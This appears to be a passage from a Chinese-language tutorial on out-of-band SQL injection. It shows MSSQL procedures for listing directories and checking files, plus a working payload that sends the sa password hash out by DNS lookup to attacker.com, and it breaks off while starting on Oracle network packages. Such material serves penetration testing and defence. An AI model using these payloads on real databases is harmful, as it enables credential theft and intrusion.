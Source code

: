 比如想要获取 C:Windows 目录下的所有目录及其子目录

```
EXEC master..xp_dirtree 'C:Windows';
```

#### **2.master..xp_fileexist**

这个扩展存储过程能判断某一文件是否在磁盘上，使用方式如下：

```
xp_fileexist '&lt;filepath&gt;'
```

例如想要检查 boot.ini 这个文件是否在 C盘

```
EXEC master..xp_fileexist 'C:boot.ini';
```

#### **3.master..xp_subdirs**

这个扩展存储过程可以给出指定的目录下的所有目录列表，使用方式如下：

```
master..xp_subdirs '&lt;dirpath&gt;'
```

例如：列出 C:Windows 下的所有第一层子目录

```
EXEC master..xp_subdirs 'C:Windows';
```

#### **4.实战案例**

下面的例子讲述的是如何通过 master..xp_dirtree() 这个扩展存储过程将 sa 的密码的 哈希值通过 DNS 请求外带

```
DECLARE @host varchar(1024);
SELECT @host=(SELECT TOP 1
master.dbo.fn_varbintohexstr(password_hash)
FROM sys.sql_logins WHERE name='sa')
+'.attacker.com';
EXEC('master..xp_dirtree "\'+@host+'foobar$"');
```

使用此预先计算形式是因为扩展存储过程不接受子查询作为给定参数值。 因此使用临时变量来存储SQL查询的结果。

### **3.针对 Oracle**

Oracle提供了一套PL / SQL软件包及其Oracle数据库服务器来扩展数据库功能。 其中几个特别适用于网络访问，从而能很好地在攻击中加以利用。

#### **1.UTL_INADDR.GET_HOST_ADDRESS**

包UTL_INADDR提供了Internet寻址支持 – 例如检索本地和远程主机的主机名和IP地址。 其中成员函数 GET_HOST_ADDRESS（）<br>
检索指定主机的IP地址，使用方法：

```
UTL_INADDR.GET_HOST_ADDRESS（'&lt;host&gt;'）
```

